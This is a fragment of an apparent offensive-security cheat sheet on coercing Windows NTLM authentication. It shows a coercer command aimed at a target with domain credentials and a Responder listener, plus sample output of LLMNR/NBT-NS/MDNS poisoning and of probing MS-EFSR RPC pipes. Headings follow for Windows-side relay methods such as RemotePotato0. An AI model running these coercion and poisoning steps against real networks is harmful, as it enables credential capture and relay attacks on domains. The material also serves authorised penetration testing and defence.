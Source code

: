 							coercer -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -t $TARGET -wh $RESPONDER_MACHINE_NAME
						* <details><summary>Example Output: Responder (Click to expand)</summary><p>

								[*] [NBT-NS] Poisoned answer sent to 10.0.0.101 for name WIN-8HXSFEBUCWT (service: Workstation/Redirector)
								[*] [MDNS] Poisoned answer sent to 10.0.0.101      for name win-8hxsfebucwt.local
								[*] [LLMNR]  Poisoned answer sent to fe80::2132:b6f0:7847:1663 for name win-8hxsfebucwt
								[*] [MDNS] Poisoned answer sent to 10.0.0.101      for name win-8hxsfebucwt.local
								[*] [LLMNR]  Poisoned answer sent to 10.0.0.101 for name win-8hxsfebucwt
								[*] [MDNS] Poisoned answer sent to fe80::2132:b6f0:7847:1663 for name win-8hxsfebucwt.local
						* <details><summary>Example Output: coercer (Click to expand)</summary><p>

								root@jack-Virtual-Machine:~/Responder# coercer -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -t $TARGET -wh WIN-8HXSFEBUCWT

								       ______
								      / ____/___  ___  _____________  _____
								     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
								    / /___/ /_/ /  __/ /  / /__/  __/ /      v1.6
								    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

								[win11] Analyzing available protocols on the remote machine and perform RPC calls to coerce authentication to None ...
								   [>] Pipe '\PIPE\efsrpc' is accessible!
								      [>] On 'win11' through '\PIPE\efsrpc' targeting 'MS-EFSR::EfsRpcOpenFileRaw' (opnum 0) ... nca_s_unk_if
								      [>] On 'win11' through '\PIPE\efsrpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 4) ... nca_s_unk_if
								      [>] On 'win11' through '\PIPE\efsrpc' targeting 'MS-EFSR::EfsRpcDecryptFileSrv' (opnum 5) ... nca_s_unk_if
								      [>] On 'win11' through '\PIPE\efsrpc' targeting 'MS-EFSR::EfsRpcQueryUsersOnFile' (opnum 6) ... nca_s_unk_if
								      [>] On 'win11' through '\PIPE\efsrpc' targeting 'MS-EFSR::EfsRpcQueryRecoveryAgents' (opnum 7) ... nca_s_unk_if
								      [>] On 'win11' through '\PIPE\efsrpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 12) ... nca_s_unk_if
								   [>] Pipe '\PIPE\lsarpc' is accessible!
								      [>] On 'win11' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcOpenFileRaw' (opnum 0) ... rpc_s_access_denied

### From a Windows Machine
#### Remote
##### Response over SMB


##### Response over HTTP/s

#### Local (Domain-Joined)
##### Response over SMB
* <details><summary>DCOM (Click to expand)</summary><p>
	* <details><summary>RemotePotato0 (Click to expand)<br />[https://github.com/antonioCoco/RemotePotato0](https://github.com/antonioCoco/RemotePotato0)</summary><p>
		* Note: Needs testing
		* Examples (aka "Modules")
			* Module 0 - Rpc2Http cross protocol relay server + potato trigger
